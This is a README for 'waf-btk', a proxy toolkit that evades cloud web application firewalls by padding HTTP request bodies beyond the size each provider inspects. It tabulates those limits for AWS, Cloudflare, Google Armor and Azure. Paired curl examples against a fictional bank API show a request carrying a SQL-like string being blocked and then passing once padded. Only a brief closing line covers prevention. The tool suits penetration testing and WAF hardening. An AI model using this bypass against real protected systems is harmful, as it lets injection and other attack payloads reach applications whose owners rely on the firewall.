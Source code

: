 # waf-btk

WAF Bypass Toolkit

## What does it do?

It is well documented that certain cloud provider WAF products have a payload size limitation. This project is an HTTP/HTTPS proxy that acts as a wrapper to evade WAF detection by padding request bodies enough to bypass inspection by those rules.

### Limits

| Provider     | Max payload inspected |
| ------------ | --------------------- |
| AWS WAF      | 8k                    |
| Cloudflare   | 128k                  |
| Google Armor | 8k                    |
| Azure WAF    | 128k                  |

## How to use it

### Start the proxy

```console
make run
2023/04/24 17:17:15 [info] start listening to 127.0.0.1:8888
...
```

### Set a custom request header

To pad a request on the fly, set the `waf-btk-padding` header to the size you want to pad to. The header will be stripped from the request.

The following example assumes you have an application protected by a WAF with a rule that blocks requests containing `SELECT * FROM` in the payload.

Example (blocked by WAF):

Replay a normal `application/json` request through the proxy.

```console
$ curl -k -x http://localhost:8888 'https://api.ghostbank.net/api/v3/transfer' \
  -H 'authority: api.ghostbank.net' \
  -H 'accept: application/json' \
  -H 'accept-language: en-US,en;q=0.9' \
  -H 'content-type: application/json' \
  -H 'cookie: ghostbank=MTY4MTk4NzQ5M...Oj4UoQKVK1U=' \
  -H 'origin: https://ghostbank.net' \
  -H 'referer: https://ghostbank.net/' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36' \
  --data-raw '{"account_to":102,"account_from":998,"amount":7,"query":"SELECT * FROM schema"}' \
  --compressed

{"error":"WAF block"}
```

Example (not blocked by WAF):

Specify the `waf-btk-padding` header (value is padded in multiples of 1K). To bypass the AWS WAF, use a value of `8` or greater. To bypass the Cloudflare WAF, use a value of `128` or greater.

```console
$ curl -k -x http://localhost:8888 'https://api.ghostbank.net/api/v3/transfer' \
  -H 'authority: api.ghostbank.net' \
  -H 'accept: application/json' \
  -H 'accept-language: en-US,en;q=0.9' \
  -H 'content-type: application/json' \
  -H 'waf-btk-padding: 8' \
  -H 'cookie: ghostbank=MTY4MTk4NzQ5M...Oj4UoQKVK1U=' \
  -H 'origin: https://ghostbank.net' \
  -H 'referer: https://ghostbank.net/' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36' \
  --data-raw '{"account_to":102,"account_from":998,"amount":7,"query":"SELECT * FROM schema"}' \
  --compressed

{"status":"ok"}
```

## How to prevent bypass

The simple way to prevent request padding bypass attacks is to just block/drop requests that exceed the size limit. However, this is not always possible/practical.
